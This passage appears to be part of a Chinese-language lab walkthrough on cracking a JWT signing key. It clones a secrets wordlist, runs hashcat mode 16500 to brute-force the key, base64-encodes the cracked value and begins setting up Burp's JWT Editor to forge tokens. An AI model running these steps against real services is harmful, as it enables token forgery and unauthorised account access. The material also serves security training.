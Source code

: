 # 4️⃣ 暴力破解 JWT 密钥  
  
克隆秘密列表：  

```
git clone https://github.com/wallarm/jwt-secrets
```

  
运行 Hashcat：  

```
hashcat -a 0 -m 16500 <JWT_STRING> jwt-secrets/jwt.secrets.list
```

  
  
  
  
💥 Boom — 我们破解了秘密：  
  
secret1  
> 💡 运行
```
--show
```

即可揭示破解的秘密，无需重新处理。  
  
  
  
  
# 5️⃣ Base64 编码秘密  
  
使用 Burp Decoder 编码
```
secret1
```

为 base64：  
  
Result  
 → c2VjcmV0MQ==  
  
  
  
  
  
  
# 6️⃣ 在 Burp 中生成对称密钥  
  
JWT 编辑器 → 密钥 → 新建对称密钥  
- 生成新密钥  
- 将参数替换
```
k
```

为
```
c2VjcmV0MQ==
```
